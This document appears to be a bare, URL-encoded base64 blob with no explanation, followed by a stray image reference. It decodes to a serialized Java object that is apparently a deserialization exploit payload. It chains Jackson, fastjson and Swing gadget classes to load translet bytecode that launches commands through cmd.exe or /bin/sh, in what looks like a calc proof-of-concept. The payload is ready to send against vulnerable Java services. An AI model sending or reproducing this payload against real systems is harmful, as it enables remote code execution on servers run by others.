%31%42%79%62%33%42%6c%63%6e%52%70%5a%58%4d%37%65%48%41%41%41%41%41%41%2f%2f%2f%2f%2f%33%56%79%41%41%4e%62%57%30%4a%4c%2f%52%6b%56%5a%32%66%62%4e%77%49%41%41%48%68%77%41%41%41%41%41%58%56%79%41%41%4a%62%51%71%7a%7a%46%2f%67%47%43%46%54%67%41%67%41%41%65%48%41%41%41%41%50%44%79%76%36%36%76%67%41%41%41%44%49%41%51%67%45%41%56%47%39%79%5a%79%39%68%63%47%46%6a%61%47%55%76%59%32%39%74%62%57%39%74%63%79%39%69%5a%57%46%75%64%58%52%70%62%48%4d%76%59%32%39%35%62%33%52%6c%4c%33%56%30%61%57%77%76%51%57%35%75%62%33%52%68%64%47%6c%76%62%6e%4d%7a%59%57%4e%6a%5a%54%4a%6c%59%57%4d%77%4e%57%55%30%5a%47%59%77%59%54%55%35%59%32%4d%32%4d%6a%6c%6a%4d%32%5a%6b%4d%32%52%69%4e%77%63%41%41%51%45%41%51%47%4e%76%62%53%39%7a%64%57%34%76%62%33%4a%6e%4c%32%46%77%59%57%4e%6f%5a%53%39%34%59%57%78%68%62%69%39%70%62%6e%52%6c%63%6d%35%68%62%43%39%34%63%32%78%30%59%79%39%79%64%57%35%30%61%57%31%6c%4c%30%46%69%63%33%52%79%59%57%4e%30%56%48%4a%68%62%6e%4e%73%5a%58%51%48%41%41%4d%42%41%41%52%69%59%58%4e%6c%41%51%41%53%54%47%70%68%64%6d%45%76%62%47%46%75%5a%79%39%54%64%48%4a%70%62%6d%63%37%41%51%41%44%63%32%56%77%41%51%41%44%59%32%31%6b%41%51%41%47%50%47%6c%75%61%58%51%2b%41%51%41%44%4b%43%6c%57%41%51%41%54%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%30%56%34%59%32%56%77%64%47%6c%76%62%67%63%41%43%77%77%41%43%51%41%4b%43%67%41%45%41%41%30%42%41%41%64%76%63%79%35%75%59%57%31%6c%43%41%41%50%41%51%41%51%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%31%4e%35%63%33%52%6c%62%51%63%41%45%51%45%41%43%32%64%6c%64%46%42%79%62%33%42%6c%63%6e%52%35%41%51%41%6d%4b%45%78%71%59%58%5a%68%4c%32%78%68%62%6d%63%76%55%33%52%79%61%57%35%6e%4f%79%6c%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%31%4e%30%63%6d%6c%75%5a%7a%73%4d%41%42%4d%41%46%41%6f%41%45%67%41%56%41%51%41%51%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%31%4e%30%63%6d%6c%75%5a%77%63%41%46%77%45%41%43%33%52%76%54%47%39%33%5a%58%4a%44%59%58%4e%6c%41%51%41%55%4b%43%6c%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%31%4e%30%63%6d%6c%75%5a%7a%73%4d%41%42%6b%41%47%67%6f%41%47%41%41%62%41%51%41%44%64%32%6c%75%43%41%41%64%41%51%41%49%59%32%39%75%64%47%46%70%62%6e%4d%42%41%42%73%6f%54%47%70%68%64%6d%45%76%62%47%46%75%5a%79%39%44%61%47%46%79%55%32%56%78%64%57%56%75%59%32%55%37%4b%56%6f%4d%41%42%38%41%49%41%6f%41%47%41%41%68%41%51%41%48%59%32%31%6b%4c%6d%56%34%5a%51%67%41%49%77%77%41%42%51%41%47%43%51%41%43%41%43%55%42%41%41%49%76%59%77%67%41%4a%77%77%41%42%77%41%47%43%51%41%43%41%43%6b%42%41%41%63%76%59%6d%6c%75%4c%33%4e%6f%43%41%41%72%41%51%41%43%4c%57%4d%49%41%43%30%4d%41%41%67%41%42%67%6b%41%41%67%41%76%41%51%41%59%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%31%42%79%62%32%4e%6c%63%33%4e%43%64%57%6c%73%5a%47%56%79%42%77%41%78%41%51%41%57%4b%46%74%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%31%4e%30%63%6d%6c%75%5a%7a%73%70%56%67%77%41%43%51%41%7a%43%67%41%79%41%44%51%42%41%41%56%7a%64%47%46%79%64%41%45%41%46%53%67%70%54%47%70%68%64%6d%45%76%62%47%46%75%5a%79%39%51%63%6d%39%6a%5a%58%4e%7a%4f%77%77%41%4e%67%41%33%43%67%41%79%41%44%67%42%41%42%42%71%59%58%5a%68%4c%32%78%68%62%6d%63%76%54%32%4a%71%5a%57%4e%30%42%77%41%36%41%51%41%49%50%47%4e%73%61%57%35%70%64%44%34%42%41%41%52%6a%59%57%78%6a%43%41%41%39%43%67%41%43%41%41%30%42%41%41%52%44%62%32%52%6c%41%51%41%4e%55%33%52%68%59%32%74%4e%59%58%42%55%59%57%4a%73%5a%51%41%68%41%41%49%41%42%41%41%41%41%41%4d%41%43%51%41%46%41%41%59%41%41%41%41%4a%41%41%63%41%42%67%41%41%41%41%6b%41%43%41%41%47%41%41%41%41%41%67%41%42%41%41%6b%41%43%67%41%42%41%45%41%41%41%41%43%45%41%41%51%41%41%67%41%41%41%46%4d%71%74%77%41%4f%45%68%43%34%41%42%61%32%41%42%77%53%48%72%59%41%49%70%6b%41%45%42%49%6b%73%77%41%6d%45%69%69%7a%41%43%71%6e%41%41%30%53%4c%4c%4d%41%4a%68%49%75%73%77%41%71%42%72%30%41%47%46%6b%44%73%67%41%6d%55%31%6b%45%73%67%41%71%55%31%6b%46%73%67%41%77%55%30%79%37%41%44%4a%5a%4b%37%63%41%4e%62%59%41%4f%56%65%6e%41%41%52%4d%73%51%41%42%41%41%51%41%54%67%42%52%41%41%77%41%41%51%42%42%41%41%41%41%46%77%41%45%2f%77%41%68%41%41%45%48%41%41%49%41%41%41%6c%6c%42%77%41%4d%2f%41%41%41%42%77%41%37%41%41%67%41%50%41%41%4b%41%41%45%41%51%41%41%41%41%42%6f%41%41%67%41%41%41%41%41%41%44%68%49%2b%73%77%41%77%75%77%41%43%57%62%63%41%50%31%65%78%41%41%41%41%41%41%41%41%63%48%51%41%4a%44%51%79%4f%47%45%78%4d%44%59%30%4c%57%46%6d%4e%54%59%74%4e%44%45%79%59%53%31%68%4e%6a%46%69%4c%54%67%34%4e%6d%51%77%4d%44%41%35%4e%44%6b%31%59%33%42%33%41%51%42%34%63%33%49%41%4c%6d%70%68%64%6d%46%34%4c%6d%31%68%62%6d%46%6e%5a%57%31%6c%62%6e%51%75%51%6d%46%6b%51%58%52%30%63%6d%6c%69%64%58%52%6c%56%6d%46%73%64%57%56%46%65%48%42%46%65%47%4e%6c%63%48%52%70%62%32%37%55%35%39%71%72%59%79%31%47%51%41%49%41%41%55%77%41%41%33%5a%68%62%48%51%41%45%6b%78%71%59%58%5a%68%4c%32%78%68%62%6d%63%76%54%32%4a%71%5a%57%4e%30%4f%33%68%79%41%42%4e%71%59%58%5a%68%4c%6d%78%68%62%6d%63%75%52%58%68%6a%5a%58%42%30%61%57%39%75%30%50%30%66%50%68%6f%37%48%4d%51%43%41%41%42%34%63%67%41%54%61%6d%46%32%59%53%35%73%59%57%35%6e%4c%6c%52%6f%63%6d%39%33%59%57%4a%73%5a%64%58%47%4e%53%63%35%64%37%6a%4c%41%77%41%45%54%41%41%46%59%32%46%31%63%32%56%30%41%42%56%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%31%52%6f%63%6d%39%33%59%57%4a%73%5a%54%74%4d%41%41%31%6b%5a%58%52%68%61%57%78%4e%5a%58%4e%7a%59%57%64%6c%63%51%42%2b%41%41%56%62%41%41%70%7a%64%47%46%6a%61%31%52%79%59%57%4e%6c%64%41%41%65%57%30%78%71%59%58%5a%68%4c%32%78%68%62%6d%63%76%55%33%52%68%59%32%74%55%63%6d%46%6a%5a%55%56%73%5a%57%31%6c%62%6e%51%37%54%41%41%55%63%33%56%77%63%48%4a%6c%63%33%4e%6c%5a%45%56%34%59%32%56%77%64%47%6c%76%62%6e%4e%30%41%42%42%4d%61%6d%46%32%59%53%39%31%64%47%6c%73%4c%30%78%70%63%33%51%37%65%48%42%77%63%48%56%79%41%42%35%62%54%47%70%68%64%6d%45%75%62%47%46%75%5a%79%35%54%64%47%46%6a%61%31%52%79%59%57%4e%6c%52%57%78%6c%62%57%56%75%64%44%73%43%52%69%6f%38%50%50%30%69%4f%51%49%41%41%48%68%77%41%41%41%41%41%48%42%34%63%33%49%41%4c%47%4e%76%62%53%35%6d%59%58%4e%30%5a%58%4a%34%62%57%77%75%61%6d%46%6a%61%33%4e%76%62%69%35%6b%59%58%52%68%59%6d%6c%75%5a%43%35%75%62%32%52%6c%4c%6c%42%50%53%6b%39%4f%62%32%52%6c%41%41%41%41%41%41%41%41%41%41%49%43%41%41%46%4d%41%41%5a%66%64%6d%46%73%64%57%56%78%41%48%34%41%44%6e%68%79%41%43%31%6a%62%32%30%75%5a%6d%46%7a%64%47%56%79%65%47%31%73%4c%6d%70%68%59%32%74%7a%62%32%34%75%5a%47%46%30%59%57%4a%70%62%6d%51%75%62%6d%39%6b%5a%53%35%57%59%57%78%31%5a%55%35%76%5a%47%55%41%41%41%41%41%41%41%41%41%41%51%49%41%41%48%68%79%41%44%42%6a%62%32%30%75%5a%6d%46%7a%64%47%56%79%65%47%31%73%4c%6d%70%68%59%32%74%7a%62%32%34%75%5a%47%46%30%59%57%4a%70%62%6d%51%75%62%6d%39%6b%5a%53%35%43%59%58%4e%6c%53%6e%4e%76%62%6b%35%76%5a%47%55%41%41%41%41%41%41%41%41%41%41%51%49%41%41%48%68%77%63%51%42%2b%41%41%64%34%64%58%45%41%66%67%41%47%41%41%41%41%4c%7a%41%74%41%68%52%47%74%2f%51%5a%74%49%33%2b%6b%67%61%42%7a%6f%51%51%59%39%33%64%61%4c%45%65%6f%51%49%56%41%49%6c%45%2f%69%4f%45%53%37%47%67%42%54%37%66%41%68%64%6a%51%4f%49%5a%4c%54%4d%47%64%41%41%44%52%46%4e%42%63%33%49%41%49%32%70%68%64%6d%46%34%4c%6e%4e%33%61%57%35%6e%4c%6d%56%32%5a%57%35%30%4c%6b%56%32%5a%57%35%30%54%47%6c%7a%64%47%56%75%5a%58%4a%4d%61%58%4e%30%73%54%62%47%66%59%54%71%31%6b%51%44%41%41%42%34%63%48%51%41%45%47%70%68%64%6d%45%75%62%47%46%75%5a%79%35%54%64%48%4a%70%62%6d%64%7a%63%67%41%63%61%6d%46%32%59%58%67%75%63%33%64%70%62%6d%63%75%64%57%35%6b%62%79%35%56%62%6d%52%76%54%57%46%75%59%57%64%6c%63%75%4d%72%49%58%6c%4d%63%63%70%43%41%67%41%43%53%51%41%4f%61%57%35%6b%5a%58%68%50%5a%6b%35%6c%65%48%52%42%5a%47%52%4a%41%41%56%73%61%57%31%70%64%48%68%79%41%42%31%71%59%58%5a%68%65%43%35%7a%64%32%6c%75%5a%79%35%31%62%6d%52%76%4c%6b%4e%76%62%58%42%76%64%57%35%6b%52%57%52%70%64%4b%57%65%55%4c%70%54%32%35%58%39%41%67%41%43%57%67%41%4b%61%57%35%51%63%6d%39%6e%63%6d%56%7a%63%30%77%41%42%57%56%6b%61%58%52%7a%64%41%41%53%54%47%70%68%64%6d%45%76%64%58%52%70%62%43%39%57%5a%57%4e%30%62%33%49%37%65%48%49%41%4a%57%70%68%64%6d%46%34%4c%6e%4e%33%61%57%35%6e%4c%6e%56%75%5a%47%38%75%51%57%4a%7a%64%48%4a%68%59%33%52%56%62%6d%52%76%59%57%4a%73%5a%55%56%6b%61%58%51%49%44%52%75%4f%37%51%49%4c%45%41%49%41%41%6c%6f%41%42%57%46%73%61%58%5a%6c%57%67%41%4c%61%47%46%7a%51%6d%56%6c%62%6b%52%76%62%6d%56%34%63%41%45%42%41%58%4e%79%41%42%42%71%59%58%5a%68%4c%6e%56%30%61%57%77%75%56%6d%56%6a%64%47%39%79%32%5a%64%39%57%34%41%37%72%77%45%44%41%41%4e%4a%41%42%46%6a%59%58%42%68%59%32%6c%30%65%55%6c%75%59%33%4a%6c%62%57%56%75%64%45%6b%41%44%47%56%73%5a%57%31%6c%62%6e%52%44%62%33%56%75%64%46%73%41%43%32%56%73%5a%57%31%6c%62%6e%52%45%59%58%52%68%64%41%41%54%57%30%78%71%59%58%5a%68%4c%32%78%68%62%6d%63%76%54%32%4a%71%5a%57%4e%30%4f%33%68%77%41%41%41%41%41%41%41%41%41%41%46%31%63%67%41%54%57%30%78%71%59%58%5a%68%4c%6d%78%68%62%6d%63%75%54%32%4a%71%5a%57%4e%30%4f%35%44%4f%57%4a%38%51%63%79%6c%73%41%67%41%41%65%48%41%41%41%41%42%6b%63%33%49%41%48%6d%4e%76%62%53%35%68%62%47%6c%69%59%57%4a%68%4c%6d%5a%68%63%33%52%71%63%32%39%75%4c%6b%70%54%54%30%35%42%63%6e%4a%68%65%51%41%41%41%41%41%41%41%41%41%42%41%67%41%42%54%41%41%45%62%47%6c%7a%64%48%51%41%45%45%78%71%59%58%5a%68%4c%33%56%30%61%57%77%76%54%47%6c%7a%64%44%74%34%63%48%4e%78%41%48%34%41%41%41%41%41%41%41%46%33%42%41%41%41%41%41%46%78%41%48%34%41%42%58%68%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%77%63%48%42%34%41%41%41%41%41%41%41%41%41%47%52%77%65%48%67%3d
```


